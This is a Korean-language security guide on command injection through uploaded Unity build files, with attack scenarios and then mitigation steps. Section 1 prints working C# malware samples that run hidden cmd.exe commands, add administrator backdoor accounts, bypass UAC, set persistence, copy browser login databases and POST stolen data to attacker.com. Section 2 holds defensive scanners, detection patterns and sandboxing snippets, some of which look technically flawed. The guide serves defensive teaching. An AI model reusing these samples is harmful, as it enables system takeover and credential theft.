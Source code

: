 <details>
<summary><strong>Unity Command Injection</strong></summary>

## 목차
1. [정의&원리](#1-정의원리)
2. [조치 가이드](#2-조치-가이드)

---

## 1. 정의&원리

### 유니티 파일 업로드 시스템 명령어 실행 취약점이란?
웹 사이트에서 유니티 빌드 파일을 업로드하는 기능에서, 악성 스크립트가 포함된 파일에 대한 적절한 검증 없이 업로드를 허용할 때 발생하는 취약점입니다. 사용자가 해당 파일을 실행하면 악성 스크립트를 통해 시스템 명령어가 실행될 수 있습니다.

### 취약점 발생 위치
- **서버 측**: 유니티 빌드 파일 업로드 처리 과정
- **클라이언트 측**: 업로드된 유니티 파일 실행 시점
- **실행 환경**: 사용자 브라우저 또는 유니티 런타임 환경

### 공격 시나리오

#### 일반적인 공격 과정:
1. **악성 스크립트 작성**: C# 스크립트에 시스템 명령어 실행 코드 삽입
2. **유니티 프로젝트 빌드**: 악성 스크립트가 포함된 유니티 파일 생성
3. **파일 업로드**: 웹사이트에 악성 유니티 파일 업로드
4. **사용자 유인**: 정상적인 게임이나 애플리케이션으로 위장
5. **실행 및 공격**: 사용자가 버튼 클릭 시 시스템 명령어 실행

### 취약한 코드 패턴

#### 기본적인 악성 스크립트 구조:
```csharp
using UnityEngine;
using System.Diagnostics;

public class OpenURL : MonoBehaviour 
{
    public void testURL() 
    {
        // 기본 시스템 명령어 실행
        string cmdCommand = "/c start explorer \"C:\\\" & taskmgr & pause";
        Process.Start("cmd.exe", cmdCommand);
    }
}
```

#### 고급 악성 스크립트 패턴:
```csharp
using UnityEngine;
using System.Diagnostics;
using System.Collections;

public class AdvancedMalware : MonoBehaviour
{
    void Start()
    {
        // 지연 실행으로 탐지 회피
        StartCoroutine(DelayedExecution());
    }
    
    IEnumerator DelayedExecution()
    {
        yield return new WaitForSeconds(10f);
        
        // 시스템 정보 수집
        ExecuteCommand("systeminfo > %temp%\\sysinfo.txt");
        
        yield return new WaitForSeconds(2f);
        
        // 네트워크 정보 수집
        ExecuteCommand("ipconfig /all >> %temp%\\sysinfo.txt");
        
        yield return new WaitForSeconds(2f);
        
        // 사용자 계정 생성
        ExecuteCommand("net user hacker password123 /add");
        
        // 관리자 그룹 추가
        ExecuteCommand("net localgroup administrators hacker /add");
    }
    
    void ExecuteCommand(string command)
    {
        try
        {
            ProcessStartInfo startInfo = new ProcessStartInfo();
            startInfo.FileName = "cmd.exe";
            startInfo.Arguments = "/c " + command;
            startInfo.WindowStyle = ProcessWindowStyle.Hidden;
            startInfo.CreateNoWindow = true;
            
            Process.Start(startInfo);
        }
        catch (System.Exception e)
        {
            Debug.Log("Command execution failed: " + e.Message);
        }
    }
}
```

### 공격 유형별 분류

#### 1.1. 직접 시스템 명령어 실행
```csharp
// 파일 시스템 조작
Process.Start("cmd.exe", "/c copy %USERPROFILE%\\Documents\\*.* %temp%\\stolen\\");

// 네트워크 스캔
Process.Start("cmd.exe", "/c for /L %i in (1,1,254) do ping -n 1 192.168.1.%i");

// 시스템 정보 수집
Process.Start("cmd.exe", "/c whoami /all > %temp%\\userinfo.txt");
```

#### 1.2. 권한 상승 시도
```csharp
// 관리자 계정 활성화
Process.Start("cmd.exe", "/c net user administrator /active:yes");

// 새로운 관리자 계정 생성
Process.Start("cmd.exe", "/c net user backdoor P@ssw0rd123! /add");
Process.Start("cmd.exe", "/c net localgroup administrators backdoor /add");

// UAC 우회 시도
Process.Start("cmd.exe", "/c reg add HKCU\\Software\\Classes\\ms-settings\\Shell\\Open\\command /v DelegateExecute /t REG_SZ");
```

#### 1.3. 지속성 확보
```csharp
// 시작 프로그램 등록
Process.Start("cmd.exe", "/c reg add HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run /v SystemUpdate /d C:\\temp\\malware.exe");

// 스케줄 작업 생성
Process.Start("cmd.exe", "/c schtasks /create /tn \"WindowsUpdate\" /tr \"C:\\temp\\backdoor.exe\" /sc daily /st 09:00");

// 서비스 등록
Process.Start("cmd.exe", "/c sc create BackdoorService binPath=\"C:\\temp\\service.exe\" start=auto");
```

#### 1.4. 데이터 탈취
```csharp
// 브라우저 데이터 수집
Process.Start("cmd.exe", "/c copy \"%LOCALAPPDATA%\\Google\\Chrome\\User Data\\Default\\Login Data\" %temp%\\chrome_data.db");
Process.Start("cmd.exe", "/c copy \"%APPDATA%\\Mozilla\\Firefox\\Profiles\\*.default\\logins.json\" %temp%\\");

// 문서 파일 수집
Process.Start("cmd.exe", "/c forfiles /p %USERPROFILE% /s /m *.pdf /c \"cmd /c copy @path %temp%\\docs\\\"");
Process.Start("cmd.exe", "/c forfiles /p %USERPROFILE% /s /m *.docx /c \"cmd /c copy @path %temp%\\docs\\\"");

// 데이터 외부 전송
Process.Start("cmd.exe", "/c curl -X POST -F \"file=@%temp%\\stolen_data.zip\" http://attacker.com/upload");
```

### 기술적 동작 원리

#### Unity WebGL vs Standalone 차이점:
```csharp
#if UNITY_WEBGL
    // WebGL에서는 일반적으로 System.Diagnostics.Process가 제한됨
    // 하지만 특정 조건에서 브라우저 API 활용 가능
    Application.ExternalEval("window.open('file:///C:/', '_blank');");
    
#elif UNITY_STANDALONE
    // Standalone 빌드에서는 직접적인 시스템 접근 가능
    Process.Start("cmd.exe", "/c dir C:\\ > %temp%\\directories.txt");
    
    // PowerShell 실행도 가능
    Process.Start("powershell.exe", "-Command Get-Process | Out-File %temp%\\processes.txt");
    
#endif
```

#### UI 이벤트와 연결:
```csharp
using UnityEngine;
using UnityEngine.UI;
using System.Diagnostics;

public class MaliciousButton : MonoBehaviour
{
    void Start()
    {
        // 버튼 컴포넌트 가져오기
        Button btn = GetComponent<Button>();
        
        // 클릭 이벤트에 악성 함수 연결
        btn.onClick.AddListener(() => {
            ExecuteMaliciousCode();
        });
        
        // 또는 다른 UI 이벤트 활용
        btn.onClick.AddListener(delegate { StartCoroutine(DelayedAttack()); });
    }
    
    void ExecuteMaliciousCode()
    {
        // 사용자가 버튼을 클릭하는 순간 실행
        Process.Start("cmd.exe", "/c taskmgr & explorer C:\\");
    }
    
    System.Collections.IEnumerator DelayedAttack()
    {
        // 5초 후 실행하여 의심을 피함
        yield return new WaitForSeconds(5f);
        
        Process.Start("cmd.exe", "/c net user attacker P@ssw0rd! /add /comment:\"System Account\"");
    }
}
```

---

## 2. 조치 가이드

### 2.1. 파일 업로드 검증

#### 2.1.1. 기본 파일 검증
```php
// 파일 확장자 및 크기 제한
$allowed_ext = ['unity3d', 'unityweb'];
$max_size = 10 * 1024 * 1024; // 10MB

if (!in_array($ext, $allowed_ext) || $file_size > $max_size) {
    reject_upload();
}
```

#### 2.1.2. 압축 파일 내용 스캔
```python
import zipfile
import re

def scan_unity_file(file_path):
    dangerous_patterns = [
        r'Process\.Start',
        r'System\.Diagnostics',
        r'cmd\.exe',
        r'net\s+user',
        r'reg\s+add'
    ]
    
    with zipfile.ZipFile(file_path, 'r') as zip_file:
        for file_info in zip_file.filelist:
            if file_info.filename.endswith('.cs'):
                content = zip_file.read(file_info).decode('utf-8', errors='ignore')
                
                for pattern in dangerous_patterns:
                    if re.search(pattern, content, re.IGNORECASE):
                        return False  # 위험한 패턴 발견
    
    return True  # 안전
```

### 2.2. 실행 환경 보안

#### 2.2.1. 샌드박스 실행 환경 구축
```bash
# Docker를 이용한 격리된 실행 환경
FROM ubuntu:20.04
RUN useradd -m -s /bin/bash unity_user
USER unity_user
WORKDIR /sandbox

# 네트워크 접근 차단
RUN iptables -A OUTPUT -j DROP

# 파일 시스템 접근 제한
RUN mount -o ro /usr/bin
```

#### 2.2.2. 브라우저 보안 정책
```html
<!-- Content Security Policy 적용 -->
<meta http-equiv="Content-Security-Policy" 
      content="default-src 'self'; script-src 'self' 'unsafe-eval';">

<!-- 권한 정책 제한 -->
<meta http-equiv="Permissions-Policy" 
      content="camera=(), microphone=(), geolocation=()">
```

### 2.3. 관리자 승인 시스템

#### 2.3.1. 수동 검토 프로세스
```sql
-- 승인 대기 테이블 생성
CREATE TABLE file_approvals (
    id INT AUTO_INCREMENT PRIMARY KEY,
    filename VARCHAR(255),
    upload_time DATETIME,
    status ENUM('pending', 'approved', 'rejected'),
    reviewer_id INT
);
```

#### 2.3.2. 48시간 검토 기간 설정
```php
// 업로드 후 48시간 대기 후 공개
$public_time = date('Y-m-d H:i:s', strtotime('+48 hours'));
$stmt = $pdo->prepare("UPDATE files SET public_time = ? WHERE id = ?");
$stmt->execute([$public_time, $file_id]);
```

### 2.4. 모니터링 시스템

#### 2.4.1. 실시간 로그 모니터링
```bash
# 시스템 명령어 실행 감지
tail -f /var/log/syslog | grep -E "(cmd.exe|powershell|net user)" | \
while read line; do
    echo "ALERT: Suspicious command detected - $line"
    # 관리자에게 알림 전송
done
```

#### 2.4.2. 파일 실행 추적
```javascript
// Unity WebGL 실행 시 모니터링
window.addEventListener('beforeunload', function(e) {
    // 비정상 종료 시 서버에 보고
    navigator.sendBeacon('/security-alert', {
        type: 'abnormal_exit',
        timestamp: new Date().toISOString()
    });
});
```

### 2.5. 응급 대응 절차

#### 2.5.1. 악성 파일 발견 시 조치
```bash
# 1. 즉시 파일 격리
mv /var/www/uploads/malicious_file.unity3d /quarantine/

# 2. 접근 로그 확인
grep "malicious_file" /var/log/apache2/access.log

# 3. 영향받은 사용자 파악
mysql -e "SELECT user_id, access_time FROM access_logs WHERE file_name LIKE '%malicious_file%'"
```

#### 2.5.2. 사용자 알림 및 조치
```php
// 긴급 보안 알림 발송
function send_security_alert($affected_users) {
    foreach ($affected_users as $user) {
        mail($user['email'], 
             '보안 알림', 
             '최근 실행하신 파일에서 보안 위험이 발견되어 제거했습니다. PC 검사를 권장합니다.');
    }
}
```

</details>
